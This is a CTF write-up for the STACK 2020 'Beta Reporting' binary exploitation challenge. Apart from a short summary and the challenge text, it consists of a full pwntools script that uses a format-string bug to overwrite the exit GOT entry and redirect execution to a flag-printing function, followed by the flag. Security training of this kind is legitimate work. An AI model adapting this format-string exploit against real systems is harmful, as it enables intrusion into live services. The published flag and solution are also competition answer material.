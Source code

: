 ```yaml
---
title: "STACK 2020 - Beta Reporting (Pwn)"
header:
  overlay_image: /assets/images/stack-2020/header.jpg
  overlay_filter: 0.5
  caption: "Photo credit: Steve Johnson"

tags:
  - stack
  - writeup
  - pwn
  - format string
---
```


Summary: A format string attack allows us to overwrite an entry in the GOT to redirect execution to a print flag function.

![Challenge description]({{ site.url }}{{ site.baseurl }}/assets/images/stack-2020/2E5CC7547F365251F6E538136FED5E9E.jpg/45BF71893F2FAEC58FC6BD02469194FC.jpg){: .align-center}

```
Beta reporting system
988 BINARY EXPLOITATION
21 SOLVES

DESCRIPTION
The developer working for COViD that we arrested refused to talk, but we found a program that he was working on his laptop. His notes have led us to the server where the beta is currently being hosted. It is likely that there are bugs in it as it is a beta.

Note: ASLR is enabled on the OS. PIE is not enabled.

Please view this Document for download instructions.

nc yhi8bpzolrog3yw17fe0wlwrnwllnhic.alttablabs.sg 30121

This challenge:
- Is eligible for Awesome Write-ups Award
```

Full writeup to be completed...

Exploit script:

```python
#!/usr/bin/env python

'''
Beta Reporting Solver
'''

from pwn import *

context.update(arch='i386', os='linux')
context.log_level = 'debug'


def main():
    # p = process("./beta_reporting")
    p = remote('yhi8bpzolrog3yw17fe0wlwrnwllnhic.alttablabs.sg', 30121)

    # Call the magic function to place the 'flag' string in the magic variable.
    p.recvuntil('Enter your choice:')
    p.sendline('4')

    # Construct the format string to write the address of unknownfunction into exit GOT.
    # Add a small offset for reasons.
    unknownfunction = 0x80488f7
    exit_got = 0x804b028
    fmtstr, payload = fmtstr_split(11, {exit_got: unknownfunction}, write_size='short')
    log.info('Format String: {}'.format(fmtstr))
    log.info('Payload: {}'.format(payload))
    p.sendline('1')
    p.sendline(fmtstr)
    p.recvuntil('Enter your choice:')

    # Trigger the printf and pass the addresses.
    p.sendline('2')
    p.recvuntil('Please enter your name: ')
    p.sendline(payload)
    p.recvuntil('Please enter report number or press 0 to return to menu:')
    p.sendline('1')
    p.recvuntil('Please enter report number or press 0 to return to menu:')
    p.sendline('0')
    p.recvuntil('Enter your choice:')

    # print(p.proc.pid)
    # input()

    # Trigger the overwritten exit.
    p.sendline('5')

    # Get one line.
    log.success('Flag: {}'.format(p.recvuntil('}')))


if __name__ == '__main__':
    main()
```

**Flag:** `govtech-csg{c0v1d_5y5tem_d0wn!}`
